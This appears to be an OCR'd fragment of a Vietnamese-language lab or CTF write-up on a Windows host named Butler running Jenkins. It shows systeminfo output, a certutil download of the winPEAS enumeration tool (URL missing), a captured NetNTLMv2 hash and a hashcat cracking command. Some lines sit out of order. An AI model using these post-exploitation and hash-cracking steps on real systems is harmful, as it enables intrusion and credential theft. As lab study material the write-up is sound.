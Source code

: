 System Directory:          C:\Windows\system32

Boot Device:               \Device\HarddiskVolume1

System Locale:             en-us;English (United States)

Input Locale:              en-us;English (United States)

Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)

Total Physical Memory:     4,095 MB

Available Physical Memory: 2,151 MB

Virtual Memory: Max Size:  5,503 MB

Virtual Memory: Available: 3,526 MB

Virtual Memory: In Use:    1,977 MB

Page File Location(s):     C:\pagefile.sys

Domain:                    WORKGROUP

Logon Server:              N/A

Hotfix(s):                 6 Hotfix(s) Installed.

[01]: KB4601554

[02]: KB5013887

[03]: KB5000736

[04]: KB5015807

[05]: KB5014671

[06]: KB5001405

Network Card(s):           1 NIC(s) Installed.

[01]: Intel(R) 82574L Gigabit Network Connection

Connection Name: Ethernet0

DHCP Enabled:    Yes

DHCP Server:     192.168.44.254

IP address(es)

[01]: 192.168.44.145

[02]: fe80::d84f:eb80:5807:1704

Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

Copy winpeas

C:\Program Files\Jenkins> certutil -urlcache -f  winpeas.exe

certutil -urlcache -f  winpeas.exe

****  Online  ****

CertUtil: -URLCache command completed successfully.

Chạy winpeas Thu được thông tin sau

butler::BUTLER:1122334455667788:1ac7ac3cb6c51764c9934d0d84f26279:0101000000000000d7d869814ca7d801d307dab2c5d47645000000000800300030000000000000000000000000300000ac6c3b895a9cb2e9e681a55396942e27f2f193caaa7caa1f0a48ca3d7000df420a00100000000000000000000000000000000000090000000000000000000000

hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt


[01]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz
[02]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz
[03]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz